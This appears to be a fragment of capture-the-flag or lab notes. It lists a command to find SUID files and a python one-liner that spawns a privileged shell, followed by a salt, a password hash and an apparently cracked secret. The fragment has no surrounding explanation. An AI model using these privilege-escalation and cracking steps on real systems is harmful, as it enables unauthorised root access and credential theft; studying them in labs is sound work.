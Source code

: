 find / -type f -perm -u=s 2>/dev/null
./python -c 'import os;os.system("/bin/sh -p")'

salt : 1dac0d92e9fa6bb2
pw : 0c01f4468bd75d7a84c7eb73846e8d96

=> 1dac0d92e9fa6bb2secret 
